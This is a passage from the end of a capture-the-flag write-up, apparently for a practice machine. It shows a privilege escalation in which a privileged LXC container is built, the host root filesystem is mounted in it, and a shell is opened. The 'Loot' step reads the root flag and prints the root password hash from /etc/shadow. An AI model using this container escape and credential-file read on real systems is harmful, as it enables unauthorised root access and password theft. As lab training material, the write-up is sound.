 ```
$ lxc init voidlinux cyfun -c security.privileged=true
$ lxc list
$ lxc config device add cyfun host-root disk source=/ path=/mnt/root recursive=true
```

Execute the container:

```
$ lxc start cyfun
$ lxc exec cyfun /bin/sh
$ cd /mnt/root
```

Loot:

```
# cat /mnt/root/root/root.txt
3b89a121fa4338f7835fedb1f62b8cdc
# cat /mnt/root/etc/shadow | grep root
root:$6$86Nxy4plrFeu0w4C$IfFB5j7BEbjBrUOtkmxyfUZ0lnNIxAcFn3meuvjGqFPSIogXynKx9FU1w3XJIC60rvwuKcg6feaeBqcNWMO0H/:18429:0:99999:7:::
```

[nmap]:https://nmap.org/
[ffuf]:https://github.com/ffuf/ffuf
[pwncat]:https://pwncat.org/
[linpeas]:https://github.com/carlospolop/PEASS-ng
